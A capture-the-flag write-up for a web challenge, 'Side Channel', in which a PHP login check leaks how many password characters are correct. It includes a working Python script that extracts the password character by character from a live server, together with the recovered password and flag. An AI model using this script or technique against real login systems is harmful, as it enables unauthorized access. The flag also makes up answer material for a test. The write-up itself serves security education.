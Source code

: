 # Challenge Name: Side Channel


![date](https://img.shields.io/badge/date-14.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-35-blue.svg)  

## Description

Created By **m4rc0s**

Now, some interesting bugs …

Every so often, you can find some bugs in the logic of the code, and occasionally, you can use time to extract the password.

**Code**

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

> Don't try brute-force

> You can solve the challenge manually or by using a script

> You can search Side Channel Attacks

http://18.132.195.71

[Acces to WebSite](http://18.132.195.71/)

## Detailed solution

Looking at the code we can see a for loop analyzing our input to compare it with password elements. 

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

- if we test a wrong charactere the page will return "you waited **0** seconds" 
  
![image](https://user-images.githubusercontent.com/72421091/158093241-993539d9-0216-4830-94a6-97161d45d961.png)

- if we have only one charactere right the page will return "you waited **1** seconds"

![image](https://user-images.githubusercontent.com/72421091/158093294-2b5d36de-301a-4906-b3ec-6ed2443a6658.png)

- after each charactere we found, the page will return you waited **X** seconds" with X equal to the size of our right input until the last charactere wich will return the **$FLAG**  

I created a python script to find the characters used in the password one by one. The funny thing i didn't known what's wrong for days until i realize that i forgot to add the  flag test case and stuck with webse :disappointed_relieved:

```python
import requests, string
from requests.structures import CaseInsensitiveDict

url = "http://18.132.195.71/"

headers = CaseInsensitiveDict()

headers["Connection"] = "keep-alive"
headers["Cache-Control"] = "max-age=0"
headers["Upgrade-Insecure-Requests"] = "1"
headers["Origin"] = "http://18.132.195.71"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
headers["Referer"] = "http://18.132.195.71/"
headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

t = 1
flag = ""

while(True):    
    for s in string.printable:
        tit = flag + s
        data = F"password={tit}"
        resp = requests.post(url, headers=headers, data=data)
        page = resp.content.decode("utf-8")
        if page.find(F"{t} seconds") != -1:
            flag += s
            print(flag)
            t = t+1
            break
        elif s == string.printable[-1]:
            print("Not found")
            exit()
        elif page.find("CRISIS{") != -1:
            flag += s
            print(F"the password is {flag}")
            print(page)
            exit()
```

Output

```
w
we
web
webs
webse
the password is websec
<html>
    <head>
       <meta charset="utf-8">
        <link rel="stylesheet" href="style.css" media="screen" type="text/css" />
    </head>
    <body>
        <div id="container">            
            <form action="" method="POST">
                <h3 class="text-center">Insert your Password</h3>
                
                <input type="text" placeholder="Enter the password" id=password name="password" required>

                <input type="submit" value="Submit">
            
            </form>
        </div>
    </body>
</html>

CRISIS{1c93286e3}
```
![image](https://user-images.githubusercontent.com/72421091/158093187-e2639b55-1627-41e5-8c81-5b031b395dc5.png)

## Flag

```
CRISIS{1c93286e3}
```


